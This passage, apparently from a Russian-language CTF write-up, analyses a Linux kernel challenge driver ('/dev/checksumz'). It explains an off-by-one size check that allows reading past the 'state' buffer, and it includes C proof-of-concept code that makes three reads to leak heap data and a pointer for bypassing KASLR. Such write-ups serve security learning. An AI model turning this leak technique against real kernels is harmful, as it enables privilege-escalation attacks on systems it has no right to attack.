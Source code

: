 ```c
	if (buffer->pos >= buffer->size)
		buffer->pos = buffer->size - 1;

	return copied;
}
```

Внимательно смотря на проверку размера можно увидеть, что она реализована не совсем корректно. Поле `buffer->read` инициализируется значением 0 и по логике чтения туда записывается количество считанных байт в буффер пользователя. Максимально за раз пользователь может считать 256 байт. Если пользователь осуществит два чтения по 256 байт, то поле `buffer->read` будет равно 512 и проверка размера не пройдёт.

Но если пользователь считает 256 байт в первый раз и 255 во второй, то поле `buffer->read` будет равно 511 и тогда мы сможем считать ещё раз 256 байт и таким образом считать больше данных, чем предусмотрено и получим какие-то данные с кучи. Для того, чтобы понять что мы будем читать достаточно взглянуть на структуру `checksum_buffer`:
```c
struct checksum_buffer {
	loff_t pos;
	char state[512];
	size_t size;
	size_t read;
	char* name;
	uint32_t s1;
	uint32_t s2;
};
```

Мы читаем от начала поля `state`, это значит, что мы сможем получить указатель `name` и ещё данные с кучи. Это потенциально даёт нам утечку с помощью которой можно обойти KASLR. Попробуем проверить нашу гипотезу и прочитаем данные три раза из драйвера описанным ранее способом.

```c
void hexdump(uint8_t* buffer, size_t size) {
    for (int i = 0; i < size; i++) {
        if (i % 16 == 0 && i != 0) {
            puts("");
        }
        printf("%02x ", buffer[i]);
    }
};

uint64_t try_break_kaslr(int fd) {
    if (fd == INVALID_FD) { 
        return -1;
    }

    uint8_t* buffer = (uint8_t*) calloc(BUF_SIZE, sizeof(uint8_t));
    read(fd, buffer, BUF_SIZE); // skip
    read(fd, buffer, BUF_SIZE - 1); // skip

    memset(buffer, 0x0, BUF_SIZE);
    read(fd, buffer, 256); // leak

    hexdump(buffer, 256);
};

int main() {
	int fd = open("/dev/checksumz", O_RDWR);
	try_break_kaslr(fd);
}
```
